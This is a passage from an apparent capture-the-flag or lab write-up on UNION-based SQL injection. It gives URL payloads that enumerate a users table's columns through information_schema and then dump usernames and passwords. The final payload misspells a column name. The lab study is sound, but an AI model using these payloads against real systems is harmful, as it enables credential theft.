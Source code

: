 ```
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+=+'users_ktgnak'--
```

We get 2 column names:


<img width="1531" height="805" alt="3" src="https://github.com/user-attachments/assets/4ffcd72c-7c82-4a12-ba68-a5bb791a43d0" />



Next we must show the content of the table:

```
SELECT username_hhbeig,password_xmkssz FROM users_ktgnak
```

```
/filter?category=Pets'+union+all+select+username_hhbeigs,password_xmkssz+from+users_ktgnak--
```


<img width="1533" height="788" alt="4" src="https://github.com/user-attachments/assets/388cdab4-0153-480d-aeed-77b3e22e160c" />

